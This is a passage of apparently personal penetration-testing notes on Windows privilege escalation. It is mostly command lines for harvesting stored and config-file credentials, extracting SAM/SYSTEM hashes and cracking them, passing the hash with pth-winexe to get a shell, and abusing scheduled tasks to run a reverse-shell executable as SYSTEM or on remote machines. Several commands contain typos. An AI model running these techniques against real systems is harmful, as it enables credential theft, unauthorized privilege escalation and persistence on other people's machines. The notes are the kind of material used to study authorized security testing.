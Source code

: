     * \>run savecred.bat to refresh list of saved credentials
  * \>runas /savecred /user:admin C;\reverse.exe
* Config files
  * Some config files will store admin creds
  * Unattend.xml - for automated setup of windows
  * Search for filenames: sysprep.inf, unattended.xml, sysprep.xml
  * Recuresively search for files in the current dir with “pass” in the name, or ending in .config
    * \> dir /s \*pass\* == \*.config
  * Recuresively search for files in the current dir with “password” in the name, and end in .xml, .ini, or ,txt
    * \> findstr /si password \*.xml \*.ini \*.txt
  * \>.\winPEASany.exe quiet cmd searchfast filesinfo
* SAM
  * This is where windows stores password hashes
  * They are encrypted with a key that can be found in a file named SYSTEM
  * If you can read both SAM and SYSTEM you can extract the hashes.
    * Located in C:\Windows\System32\config
    * These are locked while windows is running
    * Backups might exist in C:|windows\Repair or C:\Windows\System32\config\RegBack
  * pwdump tool - part of creddump7
  * Look at the NTLM hash - If the last section starts with “31d6c” this indicates the password is empty, or the accoutn is disabled.
  * Crack the admin user hash with hashcat
* Passing the hash
  * Windows accepts hashes instead of passwords for a number of services.
  * We can use pth-winexe to spawn a command prompt using the admin users pw hash
  * \#pth-winexe -U " \[entire hash including LM hash] //\[target] cmd.exe
* [https://www.hackingarticles.in/windows-privilege-escalation-stored-credentials-runas/](https://www.hackingarticles.in/windows-privilege-escalation-stored-credentials-runas/)

### Scheduled tasks

* Admins can config tasks to run as other users or SYSTEM
* List all tasks your current user can see
  * \> schtassk /query /fo LIST /v
  * PS> Get-ScheduledTask | where {$\_.TaskPath -notlike "\Microsoft\*} | ft TaskName,TaskPath,State
* Check tasks and called files for when/if they are executed
  * \>echo C:\reverse.exe >> \[scheduled executable]
* Schedule a task that runs everytime the system starts
  * \> schtasks /create /tn \[taskname] /tr \[Taskrun] /sc onstart
* Schedule a task that runs when a user logs on.
  * \> schtasks /create /tn \[taskname] /tr \[Taskrun] /sc onlogon
* Schedule a taks that runs when the system is idle
  * \> schtasks /create /tn \[taskname] /tr \[Taskrun] /sc onidle /i \[1-999]
* Schedule a task that runs one
  * \> schtasks /create /tn \[taskname] /tr \[Taskrun] /sc once /st {HH:MM}
* Schedule a task that runs with system permissions
  * \> schtasks /create /tn \[taskname] /tr \[Taskrun] /sc onlogon /ru System
* Schedule a task that runs on a remote computer
  * \> schtasks /create /tn \[taskname] /tr \[Taskrun] /sc onlogon /s \[PC name]

### **UAC Bypass**
